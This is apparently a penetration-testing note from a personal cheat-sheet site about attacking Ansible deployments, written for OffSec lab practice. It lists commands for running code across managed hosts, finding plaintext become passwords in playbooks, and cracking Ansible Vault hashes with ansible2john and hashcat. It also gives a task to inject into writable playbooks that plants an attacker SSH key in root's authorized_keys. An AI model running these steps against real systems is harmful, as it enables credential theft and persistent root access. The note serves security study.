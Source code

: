 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Ansible
---
```


# Ansible
#### Commands
_Ansible_ is an infrastructure configuration engine that enables IT personnel to dynamically and automatically configure IT infrastructure and computing resources through Python scripts.
Config in `/etc/ansible/hosts`.
The _ansibleadm_ user on the controller issues commands.
From the command machine:

```shell
ansible victims -a "whoami"
```

This will run `whoami` on all members of the Ansible group. To run it as root `ansible victims -a "whoami" --become` or specify the user `ansible victims -a "whoami" --become user2`.

#### Playbooks
Sets of tasks written in YAML to be scripted so that they can be run in a routine.
Check this files in _/opt/playbooks_ to see if there's any info leakage.
I.E.

```YAML
---
- name: Write a file as offsec
  hosts: all
  gather_facts: true
  become: yes
  become_user: offsec <-------
  vars:
    ansible_become_pass: lab <---------
  tasks:
    - copy:
          content: "This is my offsec content"
          dest: "/home/offsec/written_by_ansible.txt"
          mode: 0644
          owner: offsec
          group: offsec
```

Ansible has a new features called _Ansible Vault_ to securely store credentials for playbooks:
```yaml
ansible_become_pass: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          39363631613935326235383232616639613231303638653761666165336131313965663033313232
          3736626166356263323964366533656633313230323964300a323838373031393362316534343863
          36623435623638373636626237333163336263623737383532663763613534313134643730643532
          3132313130313534300a383762366333303666363165383962356335383662643765313832663238
          3036
```

Copy the hash starting with "$ANSIBLE_VAULT......." and use _ansible2john_ to convert it in a crackable way to then:
```shell
hashcat testhash.txt --force --hash-type=16900 /usr/share/wordlists/rockyou.txt
```

to then decrypt the vault like:
```shell
cat pw.txt | ansible-vault decrypt
```

Also, if the playbook files used on the controller have world-writable permissions or if we can find a way to write to them (perhaps through an exploit), we can inject tasks that will then be run the next time the playbook is run.
I.E. to add to the yaml playbook:
```yaml
- name: Create a directory if it does not exist
      file:
        path: /root/.ssh
        state: directory
        mode: '0700'
        owner: root
        group: root

    - name: Create authorized keys if it does not exist
      file:
        path: /root/.ssh/authorized_keys
        state: touch
        mode: '0600'
        owner: root
        group: root

    - name: Update keys
      lineinfile:
        path: /root/.ssh/authorized_keys
        line: "ssh-rsa AAAAB3NzaC1...Z86SOm..."
        insertbefore: EOF
```

Also, some modules from Ansible might leak data in /var/log/syslog (I.E. shell module)
